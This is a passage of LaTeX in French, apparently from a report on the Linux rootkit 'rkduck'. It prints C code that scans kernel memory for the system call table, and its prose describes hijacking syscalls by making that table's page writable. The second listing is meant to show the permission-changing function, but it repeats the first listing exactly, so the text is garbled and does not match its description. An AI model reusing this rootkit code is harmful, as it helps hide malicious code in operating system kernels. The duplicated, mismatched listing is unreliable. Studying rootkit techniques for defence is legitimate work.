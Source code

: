 \documentclass[12pt]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}
#if defined(__i386__) /* x86 */
    #define SCT_START_CHECK 0xc0000000
    #define SCT_END_CHECK   0xd0000000
    typedef unsigned int ptr_t;
#else /* x86_64 */
    #define SCT_START_CHECK 0xffffffff81000000
    #define SCT_END_CHECK   0xffffffffa2000000
    typedef unsigned long ptr_t;
#endif /* arch */

ptr_t find_syscall_table(void) {
    ptr_t** sc_table;
    ptr_t addr = SCT_START_CHECK;
    
    while (addr < SCT_END_CHECK) {
        sc_table = (ptr_t**) addr;
        if (sc_table[__NR_close] == (ptr_t*) sys_close) {
            return (ptr_t) &sc_table[0];
        }

        addr += sizeof(void *);
    }
    return NULL;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}

        Une fois l'adresse de la table des appels système connue, il ne reste plus qu'à modifier l'adresse de l'appel système que l'on souhaite détourner par une fonction que l'on contrôle. Si l'on tente de le faire directement, le module plantera, ce qui est dû au fait que la page contenant la table des appels système est en lecture seule. Il faut alors changer les droits d'accès à cette dernière, ce qui est rendu possible dans \texttt{rkduck} avec la fonction suivante.
        
\begin{listing}[H]
\begin{verbatim}
#if defined(__i386__) /* x86 */
    #define SCT_START_CHECK 0xc0000000
    #define SCT_END_CHECK   0xd0000000
    typedef unsigned int ptr_t;
#else /* x86_64 */
    #define SCT_START_CHECK 0xffffffff81000000
    #define SCT_END_CHECK   0xffffffffa2000000
    typedef unsigned long ptr_t;
#endif /* arch */

ptr_t find_syscall_table(void) {
    ptr_t** sc_table;
    ptr_t addr = SCT_START_CHECK;
    
    while (addr < SCT_END_CHECK) {
        sc_table = (ptr_t**) addr;
        if (sc_table[__NR_close] == (ptr_t*) sys_close) {
            return (ptr_t) &sc_table[0];
        }

        addr += sizeof(void *);
    }
    return NULL;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}
        
\end{document}
